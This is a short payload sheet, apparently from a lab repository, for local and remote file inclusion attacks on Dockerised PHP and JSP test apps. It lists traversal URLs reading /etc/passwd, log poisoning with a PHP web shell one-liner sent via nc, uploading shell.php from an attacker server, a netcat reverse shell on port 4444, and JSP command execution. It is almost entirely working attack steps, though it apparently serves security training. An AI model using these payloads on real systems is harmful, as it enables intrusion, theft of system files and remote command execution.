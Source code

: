 # Payloads

## PHP

- http://127.0.0.1:8883/lfi.php?language=http://172.18.0.3/check.php?

see `allow_url_include` in response

- http://127.0.0.1:8883/lfi.php?page=/etc/passwd

- By Experiment add ../ since before etc/passwd until:

http://127.0.0.1:8883/lfi.php?page=../../../etc/passwd

- Get "access.log", changed here to "access_combined.log" because stdout is going out of docker:

http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log
nc -nv 127.0.0.1 8883
<?php echo shell_exec($_GET['cmd']);?>
http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log&cmd=id

-- Check for uid in output

- Upload check.php from attacker-server src folder
load
http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/check

- upload shell.php
http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/shell
docker exec -ti <containerid_attackerserver> /bin/bash
nc 172.18.0.1 4444

## JSP

http://localhost:8888/webapp/?help=runme.jsp?exec=ls
http://localhost:8888/webapp/?help=runme.jsp?exec=cat%20/etc/passwd

http://localhost:8888/webapp/?help=http://172.18.0.3:80/jsp/introduction

# Further Information

https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion
